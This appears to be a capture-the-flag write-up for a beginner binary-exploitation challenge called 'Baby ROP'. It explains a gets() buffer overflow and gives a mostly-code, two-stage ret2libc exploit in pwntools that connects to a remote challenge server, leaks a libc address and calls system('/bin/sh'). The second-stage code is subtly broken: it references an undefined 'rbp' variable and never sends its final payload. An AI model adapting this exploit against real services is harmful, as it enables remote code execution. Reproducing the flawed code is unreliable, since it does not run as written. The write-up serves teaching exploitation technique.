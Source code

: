 
## Challenge: Baby ROP
**Type:** Pwn/Binary Exploitation  
**Difficulty:** Beginner  
**Environment:** Ubuntu 20.04

### Initial Analysis
We're given a binary `pwn_baby_rop` that prompts for input. Basic interaction shows no obvious functionality, so we analyze it with Ghidra.

### Vulnerability Discovery
We see that for getting the input the unsafe gets functions is used:
![alt text](image.png)

Seeing that it means that we can craft a ret2libc attack.

### Exploitation Strategy: Two-Stage ret2libc

To do that, first we would need to leak an address from libc. We will do that for puts by getting the puts got address and the puts plt address.
After doing that we will simply abuse the buffer overflow vulnerability by leaking the puts adress in libc.
Also, after calling leaking the puts address we will return to the main function so we can be asked for input again, now knowing an address from libc.

The first part of the exploit will look like this:
```python
from pwn import *
env = {"LD_PRELOAD": "./libc6_2.31-0ubuntu8_amd64.so"}
#io = process("./pwn_baby_rop", env=env)
io = remote("34.159.211.30", 32627)
io.recvuntil("black magic.\n")
#gdb.attach(io)

# 1st stage
pop_rdi = 0x00401663
puts_got = 0x404018
puts = 0x401060
main = 0x40145C
payload = b""
payload += b"A" * 256
payload += b"B" * 8
payload += p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts)
payload += p64(main)
io.sendline(payload)
puts_addr = io.recvline()[:-1].ljust(8, b"\x00")
puts_addr = u64(puts_addr)
log.info("puts: " + hex(puts_addr))
```

In the second stage we will need to first find the libc version so we could know the offsets. To do that we can search on libc database website and find:
![alt text](image-1.png)

Now, as we know the offsets we can first find the libc base addr, then find the system call and also the /bin/sh string address.

The second part of the exploit will look like:
```python
# 2nd stage
puts_offset = 0x0875a0
system_offset = 0x055410
bin_sh_offset =  0x1b75aa
libc_base = puts_addr - puts_offset
system = libc_base + system_offset
bin_sh = libc_base + bin_sh_offset
log.info("libc_base: " + hex(libc_base))
log.info("system: " + hex(system))
log.info("bin_sh: " + hex(bin_sh))
simple_ret = 0x0040101a
payload = b"A" * 256
payload += p64(rbp)
payload += p64(pop_rdi)
payload += p64(bin_sh)
payload += p64(simple_ret)
payload += p64(system)
```

And that is how the system function will be called with /bin/sh arg and we pwn the binary.

### Key Learning Points:
1. **Buffer Overflow Basics**: Using `gets()` creates predictable overflow conditions
2. **ret2libc Technique**: Bypassing NX bit by reusing existing libc functions  
3. **Address Leaking**: Using GOT/PLT to leak randomized addresses
4. **ROP Chains**: Chaining gadgets to control program execution
5. **Libc Database**: Using leaked addresses to identify exact libc version

This is a classic introduction to modern binary exploitation techniques!
